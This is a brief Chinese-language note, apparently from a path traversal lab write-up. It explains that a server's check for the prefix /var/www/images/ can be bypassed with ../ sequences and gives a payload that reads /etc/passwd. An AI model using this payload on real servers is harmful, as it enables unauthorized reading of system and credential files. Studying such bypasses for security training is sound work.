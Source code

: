 服务器检测输入的路径中是否含有固定开头/var/www/images/



依旧可以使用../../绕过

payload:

```javascript
filename=/var/www/images/../../../etc/passwd
```



![](images/250EAA96102C4B2ABC01E11048D77B99clipboard.png)

